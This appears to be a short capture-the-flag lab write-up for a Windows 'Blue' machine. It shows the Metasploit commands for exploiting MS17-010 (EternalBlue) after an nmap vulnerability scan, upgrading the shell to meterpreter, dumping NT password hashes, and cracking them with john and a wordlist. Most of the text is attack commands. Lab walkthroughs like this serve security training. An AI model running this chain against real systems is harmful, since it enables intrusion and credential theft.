 # Task1

Scan ports under 1000
```bash
nmap -p 1-999 TARGET_IP_ADDRESS_OR_IP_RANGE

nmap  -sV -sC --script vuln -oN blue.nmap 10.10.177.88
```

```bash
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
```
There are 3 ports open and it is vunrable to the ms17-010.

# Task2 

Start the Metsploit with `msfconsole` and `search ms17-010`. The module for attacking this system is `exploit/windows/smb/ms17_010_eternalblue`.

```bash
msfconsole
>search ms17-010
>use 0
>show options
>set rhosts <Target_IP>
>run
```
After that Ctrl+z to bring to background.

# Task3 

Convert shell to meterpreter.
```bash
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
show options
```

The SESSION required to be changes.
```bash
sessions
set session 1 
run
sessions
sessions -i 2
getuid

# find the spool process ID
ps
migrate 1296
```

# Task4 
```bash
# In the meterpreter
hashdump
```

To crack this we need to copy the hash to the file and use john to crack it.

```bash
john jon.hash --format=NT --wordlist=/opt/rockyou.txt --show
```
